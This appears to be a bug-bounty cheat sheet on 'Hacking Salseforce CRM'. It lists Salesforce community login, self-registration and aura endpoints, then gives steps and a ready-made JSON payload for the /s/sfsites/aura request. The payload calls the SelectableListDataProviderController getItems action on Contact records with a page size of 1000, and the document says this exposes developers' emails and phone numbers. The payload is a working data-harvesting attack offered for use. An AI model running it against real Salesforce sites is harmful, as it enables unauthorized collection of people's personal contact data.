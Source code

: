 ## Hacking Salseforce CRM

#### endpoints
+ /developer/s/login/
+ /developer/s/dp-register
+ /developer/s/SelfRegister
+ /developer/s/dp-register/custom-self-register
+ /s/sfsites/aura
+ /s/login/
+ /s/dp-register
+ /s/SelfRegister
+ /s/dp-register/custom-self-register

### information Disclosure 
1. Create user account on https://sub.target.com/
2. Complete to account verification process.
3. After login, visit the burp history and look for any  POST request having "/developer/s/sfsites/aura" or "/s/sfsites/aura" kind of request.
+ Payload
``
message={"actions":[{"id":"2;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"Contact","pageSize":1000,"currentPage":1,"getCount":true,"layoutType":"FULL","enableRowActions":true,"useTimeout":false}}]}
``
4. send it repeater
5. replace the message parameter with below payload.
5. send the request.

exposed all dev info  including email and phone number 
